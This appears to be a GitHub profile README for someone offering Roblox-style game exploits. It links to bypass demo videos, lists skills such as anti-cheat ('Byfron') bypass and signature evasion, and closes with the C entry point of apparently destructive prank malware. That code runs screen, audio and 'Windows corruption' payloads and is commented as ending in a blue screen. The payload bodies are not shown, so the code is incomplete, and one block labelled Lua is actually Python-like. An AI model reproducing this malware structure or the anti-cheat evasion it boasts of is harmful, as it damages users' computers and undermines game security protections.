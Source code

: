 ![ Exploit Banner](https://raw.githubusercontent.com/Bruvz322/portfilo/refs/heads/main/noFilter.png)

```lua
--[[
   
███╗   ██╗██╗   ██╗██╗     ██╗     
████╗  ██║██║   ██║██║     ██║     
██╔██╗ ██║██║   ██║██║     ██║     
██║╚██╗██║██║   ██║██║     ██║     
██║ ╚████║╚██████╔╝███████╗███████╗
╚═╝  ╚═══╝ ╚═════╝ ╚══════╝╚══════╝
                                   
                          
                          
    
    Advanced game security research and Lua exploitation and game developement.
--]]
```


`"If it exists, it can be exploited"`  



## 📽️ 𝓓𝓮𝓶𝓸𝓷𝓼𝓽𝓻𝓪𝓽𝓲𝓸𝓷𝓼  

<!-- Method 1: Direct MP4 Embed -->
[![FE Bypass Demo](https://img.youtube.com/vi/NTMb50-yMHY/maxresdefault.jpg)](https://youtu.be/NTMb50-yMHY)

[![FE Bypass Demo](https://img.youtube.com/vi/Yq6ycHU2Pvo/maxresdefault.jpg)](https://youtu.be/Yq6ycHU2Pvo)

[![FE Bypass Demo](https://img.youtube.com/vi/VRcRxzWXldI/maxresdefault.jpg)](https://youtu.be/VRcRxzWXldI)

[![FE Bypass Demo](https://img.youtube.com/vi/9CXRgb97IAQ/maxresdefault.jpg)](https://youtu.be/9CXRgb97IAQ)


```lua

class ExploitSkills:
    def __init__(self):
        self.reverse_engineering = [
            "IDA Pro", 
            "x64dbg", 
            "DLL Analysis"
        ]
        self.lua_exploitation = [
            "Luau VM Hooks",
            "Bytecode Injection",
            "Environment Spoofing"
        ]
        self.protections = [
            "Byfron Bypass",
            "Anti-Dump Techniques",
            "Signature Evasion"
        ]

```

##  Not everything i do is bad. Im a great developer too!

## Gun system with ACS Medsys intergrated. Working phone system, and radio system. (IMAGE YT LINK)

[![FE Bypass Demo](https://img.youtube.com/vi/22iNGXEqxUg/maxresdefault.jpg)](https://youtu.be/22iNGXEqxUg)


##  More Projects!

##  ```c

#include "payloads.h"
void InitDPI() {
	HMODULE hModUser32 = LoadLibrary(L"user32.dll");
	BOOL(WINAPI * SetProcessDPIAware)(VOID) = (BOOL(WINAPI*)(VOID))GetProcAddress(hModUser32, "SetProcessDPIAware");
	if (SetProcessDPIAware) {
		SetProcessDPIAware();
	}
	FreeLibrary(hModUser32);
}
int WinMain(
	_In_ HINSTANCE hInstance,
	_In_opt_ HINSTANCE hPrevInstance,
	_In_ LPSTR lpCmdLine,
	_In_ int nShowCmd
) {

	AUDIO_SEQUENCE_PARAMS pAudioSequences[AUDIO_NUM] = {0};
	pAudioSequences[0] = { 8000, 8000 * PAYLOAD_TIME, AudioSequence1 };
	pAudioSequences[1] = { 8000, 8000 * PAYLOAD_TIME, AudioSequence2 };
	pAudioSequences[2] = { 8000, 8000 * PAYLOAD_TIME, AudioSequence3 };
	pAudioSequences[3] = { 8000, 8000 * PAYLOAD_TIME, AudioSequence4 };
	pAudioSequences[4] = { 8000, 8000 * PAYLOAD_TIME, AudioSequence5 };
	pAudioSequences[5] = { 8000, 8000 * PAYLOAD_TIME, AudioSequence6 };
	pAudioSequences[6] = { 8000, 8000 * PAYLOAD_TIME, AudioSequence7 };
	pAudioSequences[7] = { 8000, 8000 * PAYLOAD_TIME, AudioSequence8 };
	pAudioSequences[8] = { 8000, 8000 * PAYLOAD_TIME, AudioSequence9 };
	pAudioSequences[9] = { 8000, 8000 * PAYLOAD_TIME, AudioSequence10 };

	SeedXorshift32((DWORD)__rdtsc());

	InitDPI();

	CreateThread(NULL, 0, LPTHREAD_START_ROUTINE(InitTimer), (PVOID)1000, 0, NULL);
	CreateThread(NULL, 0, LPTHREAD_START_ROUTINE(AudioPayloadThread), (PVOID)pAudioSequences, 0, NULL);

	ExecutePayload(Payload1, PAYLOAD_TIME);
	ExecutePayload(Payload2, PAYLOAD_TIME);
	ExecutePayload(Payload3, PAYLOAD_TIME);
	ExecutePayload(Payload4, PAYLOAD_TIME);
	ExecutePayload(Payload5, PAYLOAD_TIME);
	ExecutePayload(Payload6, PAYLOAD_TIME);
	ExecutePayload(Payload7, PAYLOAD_TIME);
	ExecutePayload(Payload8, PAYLOAD_TIME);
	ExecutePayload(Payload9, PAYLOAD_TIME);

	ExecuteShader(Shader1, PAYLOAD_TIME);
	ExecuteShader(Shader2, PAYLOAD_TIME);
	ExecuteShader(Shader3, PAYLOAD_TIME);
	ExecuteShader(Shader4, PAYLOAD_TIME);
	ExecuteShader(Shader5, PAYLOAD_TIME);
	ExecuteShader(Shader6, PAYLOAD_TIME);
	ExecuteShader(Shader7, PAYLOAD_TIME);
	ExecuteShader(Shader8, PAYLOAD_TIME);
	ExecuteShader(Shader9, PAYLOAD_TIME);
	ExecuteShader(Shader10, PAYLOAD_TIME);
	ExecuteShader(Shader11, PAYLOAD_TIME);
	ExecuteShader(Shader12, PAYLOAD_TIME);
	ExecuteShader(Shader13, PAYLOAD_TIME);

	CreateThread(NULL, 0, LPTHREAD_START_ROUTINE(WindowsCorruptionPayload), NULL, 0, NULL);
	CreateThread(NULL, 0, LPTHREAD_START_ROUTINE(MessageBoxPayload), NULL, 0, NULL);
	Sleep(20000);
	//bsod here.
	return 0;
}


```






